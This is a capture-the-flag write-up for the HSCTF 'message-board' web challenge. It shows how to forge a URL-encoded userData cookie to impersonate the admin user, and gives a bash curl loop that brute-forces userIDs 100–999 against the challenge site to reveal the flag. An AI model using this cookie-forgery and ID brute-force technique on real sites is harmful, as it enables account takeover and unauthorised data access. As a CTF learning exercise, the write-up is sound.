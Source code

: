# message-board-master(Web) - Writeup

## description

````
web/message-board
goose

Your employer, LameCompany, has lots of gossip on its company message board: message-board.hsc.tf. You, Kupatergent, are able to access some of the tea, but not all of it! Unsatisfied, you figure that the admin user must have access to ALL of the tea. Your goal is to find the tea you've been missing out on.

Your login credentials: username: kupatergent password: gandal

Server code is attached (slightly modified).
````


## answer

When you log in with the credentials in the problem statement, you will see the conversation screen.
![000-1](https://user-images.githubusercontent.com/45488828/122660831-7d88ad00-d1bf-11eb-8655-7ebbb667975f.jpg)
![001-1](https://user-images.githubusercontent.com/45488828/122660833-7feb0700-d1bf-11eb-9299-bdae4404086c.jpg)
![002-1](https://user-images.githubusercontent.com/45488828/122660885-fdaf1280-d1bf-11eb-8eef-fb6b2a234dc2.jpg)

The login ID and user name are managed by the coockie value, which seems to be rewritable.

userData = j%3A%7B%22userID%22%3A%22972%22%2C%22username%22%3A%22kupatergent%22%7D

Rewrite username to admin and then search for userID.

````
┌──(root💀kali)-[~]
└─# for i in {100..999}; do
curl -H "Cookie:userData=j%3A%7B%22userID%22%3A%22$i%22%2C%22username%22%3A%22admin%22%7D" https://message-board.hsc.tf/ | grep flag{
done

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1819  100  1819    0     0   2229      0 --:--:-- --:--:-- --:--:--  2226
        <p><strong data-bs-toggle="tooltip" title="what a cool name">HSCTF:</strong> flag{y4m_y4m_c00k13s}</p>

````

###### flag{y4m_y4m_c00k13s}
